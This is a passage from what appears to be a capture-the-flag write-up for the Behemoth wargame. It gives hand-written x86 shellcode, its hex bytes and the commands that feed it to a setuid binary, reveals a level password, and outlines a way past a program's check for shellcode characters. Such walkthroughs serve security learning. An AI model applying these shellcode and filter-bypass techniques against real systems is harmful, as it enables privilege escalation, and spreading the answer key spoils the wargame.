 After that I executed suid program.

Here's the code:

```assembly
.text
.global _start
_start:
    jmp string
    #movl    $len,%edx
    #movl    $msg,%ecx
prot:
	xorl %eax,%eax
	inc %eax
	inc %eax
	inc %eax
	inc %eax
	xorl %ebx,%ebx
	inc %ebx
	xorl %edx,%edx
	movb $0xa,%dl
	pop %ecx
	int     $0x80
	xorl %eax,%eax
	inc %eax              
    xor %ebx, %ebx              
    int  $0x80
string:
	call prot
	p: .ascii "HelloKitty"
```
```bash
$ export PATH=$PATH:/behemoth
```
```bash
$ python -c 'print "\xeb\x17\x31\xc0\x40\x40\x40\x40\x31\xdb\x43\x31\xd2\xb2\x0a\x59\xcd\x80\x31\xc0\x40\x31\xdb\xcd\x80\xe8\xe4\xff\xff\xff\x48\x65\x6c\x6c\x6f\x4b\x69\x74\x74\x79"'>shellcode.txt
```
```bash
$ behemoth6
```



##### pass=baquoxuafo

------------------------------------------------------------------------------------------------------------------------------------

## level7->level8


The program clears all env variables, and clearly takes something as argument.
Let's explore:

If you pass as argument a string it will call `__ctype_b_loc` for every char, in order to check if a shellcode is passed.
Fortunatley that check is only for the firts 512 chars, after that we can put what we want (pay attention to space chars).
